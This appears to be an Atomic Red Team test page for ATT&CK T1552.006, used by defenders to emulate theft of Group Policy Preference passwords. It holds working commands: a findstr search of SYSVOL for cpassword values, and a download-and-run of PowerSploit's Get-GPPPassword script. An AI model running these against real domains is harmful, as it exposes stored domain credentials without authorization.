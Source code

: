 ```yaml
---
tags: [T1552_006, atomic_test]
filename: "[[T1552.006 - Unsecured Credentials- Group Policy Preferences]]"
---
```

# T1552.006 - Unsecured Credentials: Group Policy Preferences

## Atomic Test #1 - GPP Passwords (findstr)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be decrypted with gpp-decrypt on Kali Linux.

**Supported Platforms:** Windows


**auto_generated_guid:** 870fe8fb-5e23-4f5f-b89d-dd7fe26f3b5f






#### Attack Commands: Run with `command_prompt`! 


```cmd
findstr /S cpassword %logonserver%\sysvol\*.xml
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
<br/>

## Atomic Test #2 - GPP Passwords (Get-GPPPassword)
Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.
This test is intended to be run from a domain joined workstation, not on the Domain Controller itself.
The Get-GPPPasswords.ps1 executed during this test can be obtained using the get-prereq_commands.

Successful test execution will either display the credentials found in the GPP files or indicate "No preference files found".

**Supported Platforms:** Windows


**auto_generated_guid:** e9584f82-322c-474a-b831-940fd8b4455c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpp_script_url | URL of the Get-GPPPassword PowerShell Script | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/87630cac639f29c2adcb163f661f02890adf4bdd/Exfiltration/Get-GPPPassword.ps1|
| gpp_script_path | Path to the Get-GPPPassword PowerShell Script | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;Get-GPPPassword.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
. "#{gpp_script_path}"
Get-GPPPassword -Verbose
```




#### Dependencies:  Run with `powershell`!
##### Description: Get-GPPPassword PowerShell Script must exist at #{gpp_script_path}
##### Check Prereq Commands:
```powershell
if(Test-Path "#{gpp_script_path}") {exit 0 } else {exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "#{gpp_script_path}") -Force | Out-Null
Invoke-WebRequest #{gpp_script_url} -OutFile "#{gpp_script_path}"
```
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually
```




<br/>
